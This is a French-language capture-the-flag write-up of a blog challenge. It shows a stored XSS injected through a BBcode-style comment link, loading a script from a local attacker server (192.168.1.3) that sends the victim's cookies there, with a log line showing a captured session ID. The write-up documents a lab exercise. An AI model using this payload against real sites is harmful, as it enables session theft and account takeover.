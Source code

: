 Objectif : *Gain access to the Blog as a registered user to reveal the hidden flag.*

Sur le blog on trouve différents billets dont un faisant référence à une API REST à l'adresse */api/documents*. On y reviendra plus tard...  

En suivant les pages du site cela m'a permis d'énumérer des utilisateurs possibles et de lancer une attaque force brute sur le formulaire de login... mais sans résultat.  

J'ai aussi remarqué que l'accès à la page de déconnexion provoque (même si l'on n'est pas connecté) les changements suivants sur les cookies :  

```plain
Set-Cookie:user=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
Set-Cookie:remember=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
Set-Cookie:activity=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT
```

Je n'ai rien trouvé à ce niveau toutefois à force de tentatives j'ai fini par remarquer l'indication suivante pour l'un des articles du blog :  

> on 11th February 2014 by Sycamore (who last viewed this 57 seconds ago)

Une tâche planifiée semble ainsi simuler la présence de l'utilisateur *Sycamore* qui va sur l'article en question à intervalle régulier.  

Le mécanisme de commentaires en bas de chaque article permet d'envoyer des commentaires sans authentification. A première vue il semble protégé contre les attaques XSS. Sauf qu'une indication nous explique comment poster des liens :  

> Links can be added with [Link title](http://example.com)

Le mécanisme BBcode-like nous permet de passer outre le filtrage des caractères. Ainsi j'ai pu poster le commentaire suivant :  

```plain
[<script src=http://192.168.1.3/test.js></script>](test)
```

Et le javascript est bien interprété. Dans le script *test.js* placé sur un serveur local j'ai mis le contenu suivant :  

```javascript
var image = document.createElement('img');
image.src = "http://192.168.1.3/" + document.cookie;
document.body.appendChild(image);
```

Un navigateur moderne bloquerait sans doute l'utilisation de *document.cookie* dans un cas comme celui-ci mais ici j'ai rapidement reçu des lignes de ce type dans les logs de mon serveur *Apache* :  

```plain
"GET /PHPSESSID=64pcr2a2hd583eqg579gpvrcs4;%20vip=0 HTTP/1.1" 403 - "http://localhost/blog.php?view=2" "
Mozilla/5.0 (Unknown; Linux i686) AppleWebKit/534.34 (KHTML, like Gecko) CasperJS/1.1.0-beta3+PhantomJS/1.9.7 Safari/534.34"
```

On voit ici l'utilisation de *PhantomJS*, un browser headless. On remarque surtout que l'exploitation a réussie.  
